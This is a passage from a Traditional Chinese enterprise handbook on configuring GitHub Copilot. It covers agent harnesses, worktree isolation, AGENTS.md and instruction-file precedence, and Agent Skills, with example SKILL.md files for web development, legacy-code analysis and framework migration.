> ⚠️ **本節是第三版新增的重要術語釐清。** 上一版手冊第 6.6 節把「harness」當成「VS Code／CLI／cloud agent／app 四種使用介面」。但 VS Code 官方文件（2026-08-28 複查）將 **agent harness** 定義為「產業界用來稱呼『統籌 Agent 的軟體』的術語」，並列出四種**執行時**：Local／Copilot／Claude／Codex。這是兩個完全不同的軸線，企業文件必須分開描述，否則會出現「我們只支援 VS Code harness」這種語意不明的規定。

#### 兩個軸線的對照

| 軸線 | 選項 | 回答的問題 |
|---|---|---|
| **使用介面**（本手冊 6.5／6.6 節） | VS Code、Copilot CLI、Copilot app、cloud agent、GitHub.com Code Review | 「使用者從哪裡下指令、設定檔放哪裡」 |
| **Agent Harness**（VS Code 官方定義） | Local、Copilot、Claude、Codex | 「是誰在跑 Agent 迴圈、用哪套 SDK」 |

#### 四種 Agent Harness（官方已實作）

| Harness | 執行方式 | 可用工具來源 | 企業治理重點 |
|---|---|---|---|
| **Local** | VS Code 內建，跑在 extension host 中 | VS Code 內建工具、其他擴充套件提供的工具、MCP Server、可選模型 | 工具面最廣，代表攻擊面也最廣，需搭配第 20.6 節 sandboxing |
| **Copilot** | 使用 **Copilot SDK**，跑在 **Agent Host** 上 | Copilot SDK 提供的工具集＋ MCP | 使用者層客製化讀 `~/.copilot`，**不是** VS Code profile（見 6.3） |
| **Claude** | 使用 Anthropic **Claude Agent SDK**，可本機執行，也有雲端版 | Claude Agent SDK 工具集 | 使用者層客製化讀 `~/.claude`；對應第 33 章跨工具標準 |
| **Codex** | 本機執行 OpenAI Codex，也有雲端版 | Codex 工具集 | 第三方模型供應商，需納入企業資料外傳政策審查 |

#### Session Target：一次工作階段的四個獨立選擇

VS Code 將這四項選擇集中在 Chat 輸入框的 **Session Target** 控制項，四者**彼此獨立**：

```text
Session Target
├── Agent harness        Local / Copilot / Claude / Codex
├── Execution environment 本機 / 遠端機器 / 雲端
├── Agent role           Agent / Plan / Ask / 自訂 Agent（.agent.md）
└── Language model       依 harness 可用的模型清單
```

實務上最常被誤解的是「Agent role」與「Agent harness」的關係：你在第 9 章建立的 `.agent.md` 是 **role**，不是 harness；同一份 `.agent.md` 可能在不同 harness 下可用工具不同，這正是第 6.5 節支援矩陣存在的原因。

#### Code Isolation：Folder 與 Worktree

| 模式 | 行為 | 適用情境 | 限制 |
|---|---|---|---|
| **Folder isolation** | 直接在當前工作區作業，看得到尚未 commit 的變更 | 一次只跑一個任務、需要延續手邊未完成的工作 | 多 Agent 並行時會互相覆寫 |
| **Worktree isolation** | 從 base branch 的**已 commit 狀態**另開一個 Git worktree | 多任務平行（對應第 10 章 Agent Team） | **需要至少有一筆 commit 的 Repository**；看不到未 commit 的變更 |

> ⚠️ **安全釐清（官方文件明文）**：「worktree 是 Git 的**程式碼隔離邊界**，**不是安全邊界**。」它防的是「兩個 Agent 改到同一個檔案」，不是「Agent 執行惡意指令」。後者需要的是第 20.6 節的 **Agent Sandboxing**。不少企業把「我們都用 worktree」寫進安全政策，這是錯誤的安全假設。

#### Agent Host 與 Session Handoff

**Agent Host** 是一個專用程序，與「顯示該 session 的視窗」解耦執行，因此支援：

- **背景延續**：關掉視窗或切換專案，Agent 仍繼續工作。
- **跨視窗同步**：同一 session 可在不同視窗查看。
- **遠端執行**：搭配 Execution environment 選項，把實際執行搬到遠端機器或雲端。
- **Session handoff**：同一個工作階段可在不同 harness／執行環境之間交接（例如本機起手、交給雲端跑完）。

**如何啟用 Agent Host（第四版新增，官方已實作）**：Agent Host 目前是 **opt-in**。啟用方式為開啟設定 `chat.agentHost.enabled`，再從 harness 下拉選單選擇一個 agent host harness。官方將此描述為「围繞 **Agent Host Protocol（AHP）** 重新架構 VS Code 的 Agent Session」——一個專用程序負責執行 Copilot、Claude、Codex 等 harness。

> **企業導入含意（建議架構）**：因為是 opt-in，企業會出現「部分人已啟用、部分人未啟用」的**行為不一致期**。最直接的影響是第 20.7.1 小節的 **Assisted Permissions 與 Autopilot 只在 Agent Host 上可用**，以及使用者層客製化的讀取位置會隨 harness 而異（`~/.copilot`／`~/.claude`）。建議企業**明確表態**：要麼統一以 Settings Policy 開啟並同步更新內部教學，要麼明令暫不使用，不要放任各團隊自行決定。

**Worktree 已擴及全部 harness（第四版更新，官方已實作）**：跑在 Agent Host 上的 harness 現已全面支援 worktree 隱離。Agents 視窗中的 **New Worktree** 勾選框過去只有 Copilot harness 支援，現在 **Claude 與 Codex session 也會跑在 Git worktree 中**，讓同一工作區內不同功能的平行 session 更容易建立。這對第 10 章 Agent Team 平行協作是關鍵前提——但請再次注意上方的釋清：**worktree 不是安全邊界**。

> ⚠️ **治理含意（建議架構）**：「背景延續」代表 Agent 可能在**沒有人盯著螢幕**的情況下持續修改程式碼。企業導入自主程度較高的模式（如 Autopilot）時，必須同時完成三件事：（1）開啟第 20.6 節 sandboxing；（2）使用 worktree isolation；（3）依第 31 章建立合併前的 Quality Gate。三者缺一不可。

### Scenario

某企業把 `.github/agents/security-reviewer.agent.md` 設計好後，發現在 GitHub.com 的 PR Code Review 情境中沒有生效。查證後發現 Custom Agents 主要設計給 VS Code／Copilot CLI 的互動情境使用，GitHub.com Code Review 這個介面有自己的一套指令讀取邏輯（主要吃 `AGENTS.md`／`copilot-instructions.md`）。**教訓**：導入任何客製化資源前，務必先確認目標情境（IDE／CLI／cloud agent／Code Review）是否真的支援該機制，不要假設「在一個地方生效，其他地方也會生效」。

### 本章 Checklist

- [ ] 已依 6.1 建立企業 Repository 的客製化目錄骨架
- [ ] 已用 6.2 分清楚「哪些是 Copilot 客製化、哪些是一般 GitHub Actions」
- [ ] Monorepo 專案已評估是否開啟 `chat.useCustomizationsInParentRepositories`（6.4）
- [ ] 已用 6.5 支援矩陣確認團隊實際使用的 Client 是否支援目標機制
- [ ] 已依 6.6 明列企業支援的 harness 範圍，並確認 Copilot app 也在治理範圍
- [ ] 已依 6.7 區分「使用介面」與「Agent Harness（Local／Copilot／Claude／Codex）」兩個軸線，且企業文件用詞一致
- [ ] 已向團隊宣導「worktree 不是安全邊界」，避免錯誤的安全假設（6.7）
- [ ] 已對 `chat.agentHost.enabled`（Agent Host）明確表態：統一開啟或明令暫不使用，不放任各團隊自行決定（6.7）

---

## 7. AGENTS.md、copilot-instructions.md 與 *.instructions.md 深入比較

### 7.1 三者比較表

| 項目 | `AGENTS.md` | `copilot-instructions.md` | `*.instructions.md` |
|---|---|---|---|
| Scope | Repository root（可選開啟 nested，Experimental） | Repository 全域 | 依 `applyTo` glob 決定的路徑範圍 |
| 用途 | 跨 AI Coding Agent（Copilot／Claude／Gemini）共用的專案說明 | Copilot 專屬的 Repo 全域規則 | Copilot 專屬的路徑特定規則 |
| Trigger | 依支援矩陣，各 Client 條件不同（見 6.5） | 每次對話自動注入 | 依 glob 是否匹配當前操作檔案 |
| 適合內容 | 專案整體說明、建置指令、跨工具都適用的通用規範 | 團隊 Coding Standard、架構限制等 Copilot 專屬規則 | 特定語言/框架/目錄的規則（如 `**/*.java`） |
| 是否支援 glob／applyTo | 否（root 層級，或 nested 開關） | 否（全域套用） | 是，`applyTo` frontmatter 欄位 |
| 跨工具能力 | 是（官方明文與 `CLAUDE.md`、`GEMINI.md` 並列支援，但**支援面有限**，見下方矩陣） | 否（Copilot 專屬） | 否（Copilot 專屬） |
| 建議使用情境 | 專案已同時被多種 AI Coding Agent 使用時的共用說明 | 團隊已確定的、放諸四海皆準的規則 | 需要依檔案類型差異化套用的規則 |

### 7.2 `AGENTS.md` 支援矩陣（最容易寫錯的一段，務必逐字核對官方原文）

依官方支援矩陣頁（`docs.github.com/en/copilot/reference/custom-instructions-support`）：

| 使用情境 | `AGENTS.md` | `CLAUDE.md` | `GEMINI.md` |
|---|---|---|---|
| GitHub.com Copilot cloud agent | ✅ | 資料不足（需查證當下版本） | 資料不足 |
| GitHub.com Code Review | ✅（**僅認 `AGENTS.md`**） | ❌ | ❌ |
| VS Code cloud agent | ✅ | 資料不足 | 資料不足 |
| JetBrains／Eclipse／Xcode cloud agent | ✅ | 資料不足 | 資料不足 |
| Copilot CLI | ✅（也會查 `.claude/CLAUDE.md`） | ✅ | ✅ |

> 官方支援矩陣的重點結論：**`AGENTS.md` 不是「放諸四海皆準」的萬用檔案**，它在不同 Client、不同情境下的支援程度不同，尤其 **GitHub.com 的 Code Review 功能只認 `AGENTS.md`**，即使專案同時放了 `CLAUDE.md`，Code Review 也不會讀取。企業若同時使用 Claude Code 與 GitHub Copilot，建議兩份檔案都準備，內容盡量保持一致或用 `@` 引入共用片段。

**`AGENTS.md` 的治理現況**（Source-confirmed，2026-08-27 查證）：`AGENTS.md` 原由 OpenAI 發起，目前已移交 **Linux Foundation 旗下的 Agentic AI Foundation** 託管，截至 2026 年中已有 **28 個以上的 AI Coding 工具**（含 GitHub Copilot、Claude Code、Cursor、Windsurf、Amp、Devin、Aider、Zed、JetBrains Junie 等）與**超過 6 萬個開源 Repository** 採用。這代表 `AGENTS.md` 已是跨廠商、由中立基金會治理的產業標準，而非單一供應商的自訂格式，企業採用時可以更放心地把它當成「多 Agent 共用背景」的長期基礎設施，而不用擔心單一廠商未來改變方向。

### 7.3 VS Code 設定開關

| 設定鍵 | 說明 |
|---|---|
| `chat.useAgentsMdFile` | 啟用讀取 workspace root 的 `AGENTS.md` |
| `chat.useNestedAgentsMdFiles` | **Experimental**，讓 monorepo 子資料夾也能有各自的 `AGENTS.md` |

### 7.4 指令優先順序

官方文件說明的優先順序（高到低）：**Personal → Path-specific → Repository-wide → Agent instructions → Organization**。

> ⚠️ 但 Copilot CLI 的個人化指令文件另外明說：「不同檔案（`copilot-instructions.md`／`AGENTS.md`／`CLAUDE.md`／`GEMINI.md`）之間**沒有定義通用優先序**，應避免撰寫互相衝突的指令」（官方原文："it does not define a general precedence order between these files. Avoid conflicting instructions."）。也就是說，優先順序規則只保證「同類型指令的個人／路徑／全域／組織層級」順序，不保證「不同檔案之間」的順序，企業撰寫規則時務必避免讓 `AGENTS.md` 與 `copilot-instructions.md` 互相矛盾。

### 7.5 `applyTo` 語法範例

```yaml
---
applyTo: "**/*.ts,**/*.tsx"
---
```

多個 glob 用逗號分隔，整體加引號；`**` 代表套用到所有檔案。

### 7.6 企業 Web Application 完整範例

**`.github/copilot-instructions.md`（示意）**：

```markdown
# 企業 Web Application 開發規範

本專案採用 Clean Architecture 分層：Controller → Service → Repository → Entity。

- 所有 REST API 回應必須包裝為 `ApiResponse<T>` 格式
- 所有 Service 層方法禁止直接回傳 Entity，必須轉換為 DTO
- 資料庫存取一律透過 Repository 介面，禁止在 Service 層直接寫 SQL
- 詳細規範請見 @docs/architecture.md
```

**`.github/instructions/java.instructions.md`（示意）**：

```markdown
---
applyTo: "**/*.java"
---

# Java 程式碼規範

- 延續並善用 JDK 21+ 已定案的語言特性（`record`、switch pattern matching），並隨 Java 25 更新持續檢視新版本帶來的語法改進
- 所有 public 方法須有 Javadoc
- 例外處理統一使用自訂的 `BusinessException` 階層，禁止直接拋出 `RuntimeException`
- 命名慣例：Controller 類別以 `Controller` 結尾，Service 介面以 `Service` 結尾，實作類別以 `ServiceImpl` 結尾
```

**`.github/instructions/vue.instructions.md`（示意）**：

```markdown
---
applyTo: "**/*.vue,**/*.ts"
---

# Vue 3 + TypeScript 程式碼規範

- 一律使用 Composition API（`<script setup lang="ts">`），禁止使用 Options API
- 狀態管理使用 Pinia，禁止在元件內直接操作全域變數
- 樣式一律使用 Tailwind CSS utility class，避免撰寫自訂 CSS
- UI 元件優先使用 PrimeVue，除非設計稿明確要求客製化元件
```

**`AGENTS.md`（示意，跨工具共用部分）**：

```markdown
# 專案說明（供 AI Coding Agent 使用）

這是一個 Java 25 + Spring Boot 4.x（後端）與 Vue 3 + TypeScript（前端）的企業 Web 應用程式。

## 建置指令

- 後端：`mvn clean install`
- 前端：`npm install && npm run build`

## 測試指令

- 後端：`mvn test`
- 前端：`npm run test:unit`（Vitest）、`npm run test:e2e`（Playwright）

## 重要限制

- 不可修改 `src/main/resources/db/migration/` 下的既有 migration 檔案，新增變更一律新增檔案
- 不可跳過測試直接提交（`mvn test -DskipTests` 僅限本機除錯，禁止用於提交前）
```

### Scenario

某團隊同時使用 GitHub Copilot（IDE 日常開發）與 Claude Code（CLI 深度重構任務），一開始只寫了 `copilot-instructions.md`，導致 Claude Code 完全讀不到規範、每次都要重新在 Prompt 裡貼一次規則。改用 `AGENTS.md` 放共用的專案說明（建置指令、測試指令、重要限制），`copilot-instructions.md` 只放 Copilot 專屬的細部規則後，兩個工具都能拿到一致的專案背景。**若團隊仍需要 Claude Code 專屬的補充規則**（例如只有 Claude Code 用得到的工具授權設定），依 7.2 建議仍可保留一份精簡的 `CLAUDE.md`，內容只放「`AGENTS.md` 沒有涵蓋」的差異化規則，並在檔案開頭用一句話指向 `AGENTS.md`（例如「請先閱讀 @AGENTS.md 取得專案背景」），避免兩份檔案重複維護、內容日久漂移。

### AI Prompt 範例

```text
角色：你是資深 Tech Lead。

任務：請幫我們的 Java 25 + Spring Boot 4.x + Vue 3 專案草擬一份 AGENTS.md，
內容需包含：專案簡介、建置指令、測試指令、目錄結構說明、
以及「不可修改資料庫 migration 既有檔案」這條硬性限制。

限制：
- 只寫跨工具都適用的通用資訊，不要放 Copilot 專屬的細部程式碼風格規則
  （那些已經在 .github/instructions/ 底下另外維護）
- 內容需精簡，控制在 60 行以內
```

### 本章 Checklist

- [ ] 已依 7.1 表格分清楚三種檔案的用途邊界
- [ ] 已核對 7.2 支援矩陣，確認 GitHub.com Code Review 只認 `AGENTS.md`
- [ ] 已避免讓 `AGENTS.md` 與 `copilot-instructions.md` 內容互相矛盾（7.4）
- [ ] 已建立企業版的三份範例檔案（7.6）

---

## 8. Skills 深入教學與四個企業 Skill 範例

### 8.1 Agent Skills 的概念

Agent Skills 是 GitHub Copilot **官方已實作**的功能（2025-12-18 GA），定義為「Copilot 可在相關任務中載入的、由指令、腳本與資源組成的資料夾」（官方原文："Agent skills are folders of instructions, scripts, and resources that Copilot can load when relevant to improve its performance in specialized tasks."）。

**重要且容易被誤解的一點**：Agent Skills **不是**社群自創的慣例，也不是 Claude Code 專屬概念被硬套到 Copilot 上——GitHub 官方文件明確與 Claude Code 的 `.claude/skills` 相容並互通（官方原文："If you've already set up skills for Claude Code in the `.claude/skills` directory in your repository, Copilot will pick them up automatically."）。

支援介面（官方原文）："Agent skills work with Copilot cloud agent, Copilot code review, the GitHub Copilot CLI, the GitHub Copilot app, and agent mode in Visual Studio Code and JetBrains IDEs."

### 8.2 `SKILL.md` Frontmatter

**GitHub Docs 官方版本**：

| 欄位 | 必要 | 說明 |
|---|---|---|
| `name` | 是 | 全小寫、連字號分隔，通常與資料夾同名 |
| `description` | 是 | 簡短描述，Copilot 用它判斷是否載入此 Skill |
| `license` | 否 | 授權條款 |
| `allowed-tools` | 否 | **預先核准**此 Skill 可直接使用、不再逐次詢問確認的工具清單；未列入的工具仍會跳出權限確認 |

> ⚠️ **`allowed-tools` 是資安決策，不是便利欄位（官方已實作，2026-08-31 查證）**。GitHub Docs 對此欄位下了明確的 Warning：只有在你**已審閱過這個 Skill 及其引用的所有腳本、且完全信任其來源**時，才可以將 `shell` 或 `bash` 列入 `allowed-tools`。預先核准 `shell`／`bash` 等於移除了執行終端指令前的人工確認關卡，會讓**受攻擊者控制的 Skill 或 Prompt Injection 得以在你的環境中執行任意指令**。有任何疑慮時，就別把 `shell`／`bash` 寫進去。
>
> 企業實務建議（建議架構）：把「包含 `allowed-tools: shell` 或 `bash` 的 Skill」列為 **CI 強制標記項目**，一律進入人工資安審查佇列，並搭配第 20.5 節的 `permissions.deny`／`permissions.ask` 與第 20.6 節的 Sandbox 作為第二、第三道防線（見第 21 章）。

**VS Code 官方版本的完整規格（2026-08-28 複查，官方已實作）**——這一版把長度上限與命名限制寫得最清楚，也是實務上最常踩坑的地方：

| 欄位 | 必要 | 規格與限制 |
|---|---|---|
| `name` | 是 | 只允許**小寫字母、數字、連字號**；**不可**含斜線、冒號、點號或 namespace 前綴；**必須與上層資料夾同名**；**最多 64 字元**。含非法字元時會**静默失敗**（不會報錯，只是載不到） |
| `description` | 是 | 需同時說明「能做什麼」與「什麼時候用」；**最多 1024 字元**（awesome-copilot 貢獻規範另要求至少 10 字元且以單引號包住） |
| `argument-hint` | 否 | 以 slash command 呼叫時顯示於輸入框的提示文字（如 `[test file] [options]`） |
| `user-invocable` | 否 | 預設 `true`；設為 `false` 可從 `/` 選單隱藏，但模型仍可自動載入 |
| `disable-model-invocation` | 否 | 預設 `false`；設為 `true` 則**只能**手動以 slash command 呼叫 |
| `context` | 否 | **實驗性**。預設 `inline`（載入父 Agent context）；設為 `fork` 則在專用 subagent 中執行、只回傳最終結果。需開啟 `github.copilot.chat.skillTool.enabled` |

> ⚠️ **實務上最常見的三個「Skill 沒載入」原因**（1）`name` 與資料夾名不一致；（2）`name` 自作主張加了 `myorg/skillname` 或 `myorg:skillname` 前綴；（3）`description` 寫得太抽象。**前兩項都是静默失敗**，不會有任何錯誤訊息，這也是企業必須在 CI 加上 `npm run skill:validate` 同等驗證的原因（見第 2.8 節）。
>
> ⚠️ **Skill 被打包進 Plugin 時**，Plugin 名稱會被**自動**當成命令前綴（例如 `/my-plugin:test-runner`），因此更不可手動在 `name` 裡加前綴。

官方範例（逐字取自文件）：

```yaml
---
name: github-actions-failure-debugging
description: Guide for debugging failing GitHub Actions workflows. Use this when 
asked to debug failing GitHub Actions workflows.
---
```

**規範依據與安裝／驗證指令**（Source-confirmed，來自 `github/awesome-copilot` 的 `docs/README.skills.md` 與 `CONTRIBUTING.md`，2026-08-27 查證）：Agent Skills 的格式依循開放規範 `agentskills.io/specification`，並非 GitHub 自創格式，這也是它能與 Claude Code 等其他 Agent 平台互通的原因。若要用 GitHub CLI 直接安裝他人發布的 Skill，需先確認 **GitHub CLI 版本 ≥ 2.90.0**（`gh skills install <owner>/<repo>`）；若要為 awesome-copilot 貢獻新 Skill，官方鷹架與驗證指令為 `npm run skill:create -- --name <skill-name> --description "..."` 建立骨架，`npm run skill:validate` 驗證格式，`npm run build` 更新索引。

### 8.3 Skill Directory 與存放位置

```text
.github/skills/<skill-name>/
└── SKILL.md
    ├── scripts/          # 可選：輔助腳本
    ├── references/       # 可選：參考資料
    └── templates/        # 可選：範本檔案
```

存放位置（依 Client 而定）：

| 範圍 | 路徑 |
|---|---|
| 專案（GitHub 官方） | `.github/skills/` |
| 專案（Claude 相容） | `.claude/skills/` |
| 專案（通用） | `.agents/skills/` |
| 個人 | `~/.copilot/skills/`、`~/.agents/skills/`（VS Code 另支援 `~/.claude/skills/`） |
| 自訂擴充位置 | VS Code `chat.agentSkillsLocations` 設定 |

**官方路徑定義複查（2026-08-31，官方已實作）**：`docs.github.com` 的 About agent skills 與 Customization Cheat Sheet 兩頁一致列出 **五個官方探索路徑**，可分為兩類：

- **專案 Skill（Project skills）**，隨 Repository 版控、隨專案共享：`.github/skills/<skill-name>/SKILL.md`、`.claude/skills/<skill-name>/SKILL.md`、`.agents/skills/<skill-name>/SKILL.md`
- **個人 Skill（Personal skills）**，放在 home 目錄、跨專案通用：`~/.copilot/skills/<skill-name>/SKILL.md`、`~/.agents/skills/<skill-name>/SKILL.md`

這三個專案層路徑正是 Agent Skills 能與 Claude Code（`.claude/`）與其他遵循開放規範的 Agent（`.agents/`）**共用同一份 Skill 資產**的基礎；企業建置跨工具 Skill 庫時，應優先挑選 `.agents/skills/` 作為中立位置（建議架構，見第 33 章）。

**支援 Agent Skills 的 Surface（官方已實作）**：Copilot cloud agent、Copilot code review、Copilot CLI、GitHub Copilot app，以及 VS Code 與 JetBrains IDEs 的 agent mode（JetBrains 為 Preview）。依官方 Customization Cheat Sheet 的支援矩陣，Agent Skills 在 VS Code、Visual Studio、GitHub.com、Copilot CLI 均為完整支援，JetBrains 為 Preview，Eclipse 與 Xcode **尚未支援**。

**用 GitHub CLI 管理 Skill（官方已實作）**：`docs.github.com` 現已明載可使用 GitHub CLI 的 **`gh skill`** 指令群來**搜尋、安裝、更新、發佈** Agent Skills，使得 Skill 的分發可以像套件一樣被腳本化、納入 CI。企業可將其寫進開發環境初始化腳本，避免工程師手動下載 zip 後解壓造成版本不一致。

> ⚠️ **命名差異提醒**：本手冊第 8.2 節引用 awesome-copilot `docs/README.skills.md` 時提到的是 `gh skills install`（複數），而 `docs.github.com` 目前描述的是 `gh skill`（單數）。兩者來源不同且官方未就別名作出說明，企業導入前請先以 `gh skill --help` 實際確認您所安裝的 GitHub CLI 版本支援哪一種寫法，不要直接寫死在自動化腳本中（官方目前沒有找到足夠資料確認此差異）。

### 8.4 自動發現與三段式漸進載入

Skill 的載入是**三段式漸進**（Progressive Disclosure）機制，這是理解 Skill 為什麼比 Instructions「更省 token」的關鍵：



也就是說：即使你的專案裝了 50 個 Skill，Copilot 平常只會掃描這 50 個 `name`／`description`（成本很低），只有在判斷「這個任務跟某個 Skill 相關」時才會真正載入該 Skill 的完整內容與附屬檔案。

### 8.5 觸發方式

- **自動觸發**：Copilot 依任務內容與 Skill 的 `description` 相關性自動判斷載入（多數 Client）。
- **Slash Command 明確呼叫**：在 VS Code Chat 輸入 `/` 即可看到可用的 Skill 與 Prompt files，並可在命令後附加語絡（例如 `/webapp-testing for the login page`）。
- **兩個開關的四種組合**（官方已實作）：

| `user-invocable` × `disable-model-invocation` | 出現在 `/` 選單 | 模型可自動載入 | 適用情境 |
|---|---|---|---|
| 兩者皆略（預設） | 是 | 是 | 一般用途的 Skill |
| `user-invocable: false` | 否 | 是 | 背景知識型 Skill，不需要使用者記得它存在 |
| `disable-model-invocation: true` | 是 | 否 | **敏感／破壞性操作**，必須人工明確呼叫 |
| 兩者都設 | 否 | 否 | 等同於停用（可當成測試時的快速關閉手段） |

> ⚠️ **企業治理建議**：凡是會修改程式碼、執行部署或對外連線的 Skill，一律設 `disable-model-invocation: true`，強制變成「人類只能主動呼叫」，這是成本最低、效果最直接的一道防線（對應第 21.2 節 Risk Level 的 HIGH／CRITICAL 層級）。

- **建立方式（官方已實作，2026-08-28 新增查證）**：除了手寫，可在 VS Code Chat 輸入 `/create-skill` 讓 AI 依描述產生 `SKILL.md` 鷹架；也可在一段多輪對話結束後要求「把剛剛除錯的流程寫成 Skill」，把實際經驗沉漱成可重複使用的資產；或在 Agent Customizations 編輯器選 **Generate Skill**。輸入 `/skills` 可快速開啟 Configure Skills 選單。

### 8.6 Skill Lifecycle、Versioning、Testing、Security

| 面向 | 建議做法（建議架構，官方未定義具體流程） |
|---|---|
| Lifecycle | 比照第 28 章 Resource Lifecycle：Draft → Review → Test → Approve → Publish → Monitor → Update → Deprecate → Remove。Draft 階段先在個人 `~/.copilot/skills/` 試用，確認 `description` 能被正確觸發後才提交到專案 `.github/skills/`；Deprecate 階段建議在 `SKILL.md` 開頭加註「⚠️ 已停用，改用 XXX」而非直接刪除資料夾，避免既有 Agent 對話快取仍引用舊路徑時失敗。 |
| Versioning | `SKILL.md` 本身無官方版本欄位，建議在 Skill 資料夾內另加 `CHANGELOG.md`，並用 Git tag／PR 記錄變更。若 Skill 已被打包進 Plugin（第 11 章），版本號改以 `plugin.json` 的 `version` 為準，`CHANGELOG.md` 只記錄該 Skill 內部的變更細節。 |
| Testing | 在沙盒 Repository 中，用真實情境的 Prompt 驗證 Skill 是否會被正確載入、輸出是否符合預期格式；若要貢獻回 awesome-copilot，官方要求先跑 `npm run skill:validate`（檢查 frontmatter 與檔案結構）與 `npm run build`（重新產生索引），兩者皆通過才可送出 PR。企業內部 Skill 建議至少準備 3–5 組「應該觸發」與「不應該觸發」的 Prompt 案例，驗證 `description` 的相關性判斷沒有誤判。 |
| Security | `allowed-tools` 務必採最小權限原則；若 Skill 帶有 `scripts/`，需 Code Review 該腳本邏輯，比照一般程式碼審查標準。務必假設 Skill 內容可能被外部貢獻者惡意置入（見第 20-21 章 2026 年最新威脅情資），安裝前一律先讀完整份 `SKILL.md` 與所有 bundled 腳本，不可只看 `description` 就安裝。 |

**Checklist**：

- [ ] Skill 已在 Draft 階段於個人 Scope 測試過，確認觸發判斷準確
- [ ] Skill 若涉及版本管理，已建立 `CHANGELOG.md`
- [ ] 已跑過 `npm run skill:validate`（若貢獻回公開/企業共用 Repository）
- [ ] `allowed-tools` 已依最小權限原則設定，且所有 `scripts/` 內容已經過 Code Review

### 8.7 Skill 1：Web Application Development

> ⚠️ 建議架構——本手冊原創範例，用以示範官方驗證過的 `SKILL.md` 格式如何應用於企業 Web 開發情境。

**`.github/skills/web-application-development/SKILL.md`**：

```yaml
---
name: web-application-development
description: >-
  Guide for implementing full-stack features in this repository's Vue 3 +
  TypeScript + Tailwind CSS + PrimeVue frontend and Java 25 + Spring Boot 4.x
  REST API backend. Use this when asked to implement a new feature, endpoint,
  or UI component end-to-end.
allowed-tools: read, edit, search, terminal
---

# Web Application Development Skill

## 適用範圍
前端：Vue 3（Composition API）、TypeScript、Tailwind CSS、PrimeVue、Pinia、i18n
後端：Java 25、Spring Boot 4.x、REST API、Clean Architecture、Maven

## 實作步驟

1. **確認需求邊界**：先確認這是新增 API、修改既有 API，還是純前端功能。
2. **後端（若需要）**：
   - Controller 層只做參數驗證與轉發，不寫商業邏輯
   - Service 層實作商業邏輯，回傳 DTO 而非 Entity
   - Repository 層使用 Spring Data JPA，禁止手寫 SQL 除非有明確效能理由
   - 所有新 Endpoint 須補上對應的 JUnit 5 測試
3. **前端（若需要）**：
   - 使用 `<script setup lang="ts">`，狀態管理用 Pinia
   - API 呼叫統一透過 `src/api/` 底下的服務層，禁止在元件內直接呼叫 `fetch`/`axios`
   - UI 一律使用 PrimeVue 元件 + Tailwind utility class
   - 補上對應的 Vitest 單元測試
4. **整合驗證**：確認前後端 API 契約一致（可參考 `references/api-contract-checklist.md`）
5. **產出摘要**：列出新增/修改的檔案清單，並說明是否需要資料庫 migration

## 參考資料
- `references/api-contract-checklist.md`：前後端 API 契約檢查清單
- `templates/controller-template.java`：Controller 範本
- `templates/vue-component-template.vue`：Vue 元件範本
```

### 8.8 Skill 2：Reverse Engineering

> ⚠️ 建議架構——完整案例見第 16 章。

**`.github/skills/reverse-engineering/SKILL.md`**：

```yaml
---
name: reverse-engineering
description: >-
  Systematic legacy system analysis workflow for Java/JSP/Servlet/SQL
  codebases. Use this when asked to analyze, document, or assess an
  undocumented legacy application before modernization.
allowed-tools: read, search
---

# Reverse Engineering Skill

## 分析步驟（依序執行，不可跳步）

1. Repository Discovery：掃描目錄結構、建置工具、技術堆疊
2. Code Inventory：列出模組、類別數量、程式碼行數統計
3. Dependency Analysis：分析 Maven/Gradle 依賴、內部模組耦合關係
4. Architecture Discovery：還原分層架構（或指出「無明確分層」）
5. Database Analysis：分析 Schema、Stored Procedure、資料表關聯
6. API Analysis：列出所有對外 API／Servlet／JSP 進入點
7. Security Analysis：檢查已知風險模式（SQL Injection、硬編碼密碼等）
8. Batch Analysis：分析排程/批次作業邏輯
9. Business Rule Extraction：從程式碼萃取商業規則，以人類可讀方式記錄
10. Architecture Diagram：產出 Mermaid 架構圖
11. Technical Debt Analysis：列出技術債與風險等級
12. Modernization Recommendation：提出現代化建議路線圖

## 產出格式

每次分析須產出以下文件（存放於 `docs/reverse-engineering/`）：
- `reverse-engineering-report.md`
- `architecture-document.md`
- `dependency-map.md`
- `api-catalog.md`
- `database-catalog.md`
- `business-rule-catalog.md`
- `risk-register.md`
- `modernization-roadmap.md`

## 重要限制
- 本 Skill **只分析、不修改任何原始碼**
- 若無法確認某個行為的商業意圖，必須在報告中明確標示「需人工確認」，不可臆測
```

### 8.9 Skill 3：Framework Migration

> ⚠️ 建議架構——完整案例見第 17 章。

**`.github/skills/framework-migration/SKILL.md`**：

````yaml
---
name: framework-migration
description: >-
  Guided migration analysis workflow for upgrading major framework versions
  (e.g. Spring Boot 3.x to 4.x). Use this when asked to assess or plan a
  framework/dependency major-version upgrade.
allowed-tools: read, search, terminal
---

# Framework Migration Skill

## 分析流程

```text
Current System Assessment
        ↓
Dependency Analysis        ← 列出所有直接/間接依賴的版本相容性
        ↓
Breaking Change Detection  ← 對照官方 Migration Guide 逐條核對
        ↓
Configuration Analysis     ← application.yml/properties 變更點
        ↓
Source Code Analysis       ← API 呼叫點、已棄用 API 使用情況
        ↓
Security Analysis          ← 新版本的安全性變更（如 Jakarta namespace）
        ↓
Test Analysis               ← 既有測試涵蓋率是否足以驗證升級
        ↓
Migration Plan              ← 產出分階段升級計畫，附風險評估
```

## 產出格式

每次分析須產出以下文件（存放於 `docs/framework-migration/`），格式比照第 8.8 節 Reverse Engineering Skill 的產出慣例：
- `migration-assessment.md`：現況評估總結（目前版本、目標版本、預估工作量）
- `dependency-compatibility-matrix.md`：所有直接/間接依賴的版本相容性矩陣
- `breaking-changes-catalog.md`：逐條對照官方 Migration Guide 的 Breaking Change 清單，含影響範圍與修復方式
- `configuration-changes.md`：設定檔（`application.yml`/`.properties`）需要調整的項目
- `deprecated-api-usage.md`：程式碼中已呼叫、即將被移除的 API 清單
- `test-coverage-gap-analysis.md`：既有測試涵蓋率是否足以驗證升級後行為不變
- `migration-plan.md`：分階段升級計畫，每階段附風險評估與回滾方案

## 重要限制
